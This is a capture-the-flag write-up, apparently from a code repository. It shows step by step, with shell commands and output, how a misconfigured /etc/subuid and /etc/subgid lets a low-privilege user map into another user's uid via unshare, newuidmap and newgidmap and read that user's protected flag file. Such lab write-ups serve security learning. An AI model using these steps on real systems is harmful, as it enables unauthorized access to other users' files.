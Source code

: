# subuser write-up

## connect through ssh with simpleuser account
## Notice vulnerable subuid and subgid configuration

```
[simpleuser@6304f11c4fca ~]$ cat /etc/subuid
simpleuser:524288:65536
flaguser:589824:65536
simpleuser:1001:1
[simpleuser@6304f11c4fca ~]$ cat /etc/subgid
simpleuser:524288:65536
flaguser:589824:65536
simpleuser:1001:1
```

## use unshare to create a new user namespace and display PID

```
[simpleuser@6304f11c4fca ~]$ PS1='€ ' unshare -U bash
€ echo $$
46
€ 
```

## open another session through ssh with simpleuser account, and change uid and gid mapping allowed by vulnerable subuid and subgid mapping

```
[simpleuser@6304f11c4fca ~]$ newuidmap 
usage: newuidmap [<pid>|fd:<pidfd>] <uid> <loweruid> <count> [ <uid> <loweruid> <count> ] ... 
[simpleuser@6304f11c4fca ~]$ newuidmap 46 0 1000 1 1 1001 1
[simpleuser@6304f11c4fca ~]$ newgidmap 46 0 1000 1 1 1001 1
```

## on previous session, search and display flag

```
€ ls -al /home/
total 0
drwxr-xr-x. 1 nobody nobody 16 Sep 16 12:03 .
dr-xr-xr-x. 1 nobody nobody 12 Sep 16 12:03 ..
drwx------. 1 bin    bin    18 Sep 16 12:03 flaguser
drwx------. 1 root   root   64 Sep 16 12:03 simpleuser
€ ls -al /home/flaguser/
total 16
drwx------. 1 bin    bin     18 Sep 16 12:03 .
drwxr-xr-x. 1 nobody nobody  16 Sep 16 12:03 ..
-rw-r--r--. 1 bin    bin     18 Feb  6  2023 .bash_logout
-rw-r--r--. 1 bin    bin    141 Feb  6  2023 .bash_profile
-rw-r--r--. 1 bin    bin    492 Feb  6  2023 .bashrc
-r--------. 1 bin    bin     33 Sep 16 11:57 .flag.txt
€ cat /home/flaguser/.flag.txt
Congrats, here is the flag: FLAG
€ 
```

# sources

- https://man7.org/linux/man-pages/man7/user_namespaces.7.html
- https://blog.quarkslab.com/digging-into-linux-namespaces-part-2.html
- https://www.redhat.com/sysadmin/podman-inside-container
- https://github.com/containers/podman/blob/main/contrib/podmanimage/stable/Containerfile
- https://github.com/containers/podman/blob/main/docs/tutorials/rootless_tutorial.md#etcsubuid-and-etcsubgid-configuration
